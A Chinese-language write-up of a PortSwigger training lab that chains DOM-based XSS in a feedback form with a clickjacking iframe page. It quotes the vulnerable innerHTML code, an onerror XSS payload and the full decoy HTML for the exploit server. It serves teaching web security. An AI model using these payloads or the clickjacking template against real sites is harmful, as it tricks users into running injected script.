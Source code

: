 | Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#combining-clickjacking-with-a-dom-xss-attack |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss      |

這題要先找出 DOM-based XSS 的注入點，因為 Lab 突然多了一個 "Submit Feedback" 的功能，所以馬上引起我的注意

觀察 submitFeedback.js

```js
function displayFeedbackMessage(name) {
  return function () {
    var feedbackResult = document.getElementById("feedbackResult");
    if (this.status === 200) {
      feedbackResult.innerHTML =
        "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
      feedbackForm.reset();
    } else {
      feedbackResult.innerHTML =
        "Failed to submit feedback: " + this.responseText;
    }
  };
}
```

構造 `?name=<img src="x" onerror="print()"/>&email=123@123&subject=123&message=123`，送出以後就會觸發 XSS

在 exploit-server 的 response body 設定以下 html（這題的 CSS 稍微不好調，因為表單很高XD）

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 900px;
        z-index: 1;
      }
      div {
        position: absolute;
        top: 800px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a6800320415217880893a260030005e.web-security-academy.net/feedback?name=%3Cimg%20src=%22x%22%20onerror=%22print()%22/%3E&email=123@123&subject=123&message=123"
    ></iframe>
    <div>Click me</div>
  </body>
</html>
```

